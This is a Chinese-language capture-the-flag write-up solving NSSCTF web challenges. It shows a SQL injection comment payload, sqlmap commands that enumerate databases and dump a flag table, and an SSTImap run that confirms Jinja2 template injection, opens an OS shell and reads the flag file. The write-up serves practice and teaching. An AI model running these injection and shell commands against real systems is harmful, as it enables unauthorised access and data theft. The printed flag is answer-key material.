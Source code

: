 # 2025-01-17 题解

## [MoeCTF 2022]Sqlmap_boy 

https://www.nssctf.cn/problem/3350

* 考点：SQL注入, sqlmap
* 工具：sqlmap

```bash
# 访问登录页，根据页面注释提示
#     <!-- $sql = 'select username,password from users where username="'.$username.'" && password="'.$password.'";'; -->
#     select username,password from users where username="$username" && password="$password";
#     select username,password from users where username="admin" -- " && password="$password";

# conda activate pentest
sqlmap -u 'http://node5.anna.nssctf.cn:21540/secrets.php?id=2' -c 'PHPSESSID=43f72e5a89d64eaa9f7e4af07fe6ef1a'
sqlmap -u 'http://node5.anna.nssctf.cn:21540/secrets.php?id=2' --cookie='PHPSESSID=43f72e5a89d64eaa9f7e4af07fe6ef1a'
sqlmap -u 'http://node5.anna.nssctf.cn:21540/secrets.php?id=2' --cookie='PHPSESSID=43f72e5a89d64eaa9f7e4af07fe6ef1a' --dbs
sqlmap -u 'http://node5.anna.nssctf.cn:21540/secrets.php?id=2' --cookie='PHPSESSID=43f72e5a89d64eaa9f7e4af07fe6ef1a' --tables -D moectf
sqlmap -u 'http://node5.anna.nssctf.cn:21540/secrets.php?id=2' --cookie='PHPSESSID=43f72e5a89d64eaa9f7e4af07fe6ef1a' -D moectf -T flag --columns
sqlmap -u 'http://node5.anna.nssctf.cn:21540/secrets.php?id=2' --cookie='PHPSESSID=43f72e5a89d64eaa9f7e4af07fe6ef1a' -D moectf -T flag -C flAg --dump

# 后记：通过 sqlmap 测试发现 users 表中一共 3 个用户，全是弱口令
# admin:admin
# root:root
# hack:admin123
```

## [HDCTF 2023]LoginMaster 

https://www.nssctf.cn/problem/3782

[hdctf2023-loginmaster.md](hdctf2023-loginmaster.md)

## [第五空间 2021]yet_another_mysql_injection 

https://www.nssctf.cn/problem/334

[第五空间2021-yet_another_mysql_injection.md](第五空间2021-yet_another_mysql_injection.md)

## [LitCTF 2024]一个....池子？ 

https://www.nssctf.cn/problem/5606

* 考点：SSTI
* 工具：sstimap

先用 SSTI payload 在 yakit 里 fuzz 了一遍，确认存在 SSTI 注入。

```bash
# ref: https://github.com/vladko312/SSTImap
python sstimap.py -u http://node4.anna.nssctf.cn:28633/echo -d input=1 --os-shell

    ╔══════╦══════╦═══════╗ 
    ║ ╔════╣ ╔════╩══╗ ╔══╝═╗
    ║ ╚════╣ ╚════╗  ║ ║    ║{║  _ __ ___   __ _ _ __
    ╚════╗ ╠════╗ ║  ║ ║    ║*║ | '_ ` _ \ / _` | '_ \
    ╔════╝ ╠════╝ ║  ║ ║    ║}║ | | | | | | (_| | |_) |
    ╚══════╩══════╝  ╚═╝    ╚╦╝ |_| |_| |_|\__,_| .__/
                             │                  | |
                                                |_|
[*] Version: 1.2.3
[*] Author: @vladko312
[*] Based on Tplmap
[!] LEGAL DISCLAIMER: Usage of SSTImap for attacking targets without prior mutual consent is illegal.
It is the end user's responsibility to obey all applicable local, state and federal laws.
Developers assume no liability and are not responsible for any misuse or damage caused by this program
[*] Loaded plugins by categories: languages: 5; legacy_engines: 2; engines: 17; generic: 3
[*] Loaded request body types: 4

[*] Scanning url: http://node4.anna.nssctf.cn:28633/echo
[*] Testing if Body parameter 'input' is injectable
[*] Ejs plugin is testing rendering with tag '*'
[*] Ejs plugin is testing %>*<%# code context escape with 6 variations
[*] Ejs plugin is testing blind injection
[*] Ejs plugin is testing %>*<%# code context escape with 6 variations
[*] Freemarker plugin is testing rendering with tag '*'
[*] Freemarker plugin is testing }* code context escape with 6 variations
[*] Freemarker plugin is testing blind injection
[*] Freemarker plugin is testing }* code context escape with 6 variations
[*] Dust plugin is testing rendering
[*] Dust plugin is testing blind injection
[*] Jinja2 plugin is testing rendering with tag '*'
[+] Jinja2 plugin has confirmed injection with tag '*'
[+] SSTImap identified the following injection point:

  Body parameter: input
  Engine: Jinja2
  Injection: *
  Context: text
  OS: posix-linux
  Technique: render
  Capabilities:

    Shell command execution: ok
    Bind and reverse shell: ok
    File write: ok
    File read: ok
    Code evaluation: ok, python code

[+] Run commands on the operating system.
posix-linux $ cat /flag
NSSCTF{9e041429-9059-41fb-9852-3ed25f8caf9b}

```

做完之后，看了以下其他人的 WP，一并记录推荐：

- 手动注入 https://blog.csdn.net/qq_75120258/article/details/139482506 
- 看 https://blog.csdn.net/administratorlws/article/details/139449645 时，作者提到了另一种工具 https://github.com/Marven11/Fenjing 实测比 SSTImap 慢很多，使用时代理指向了 yakit ，全程记录了攻击过程
- 另一个 3.8k 的 SSTI 工具 https://github.com/epinna/tplmap 还没有测试

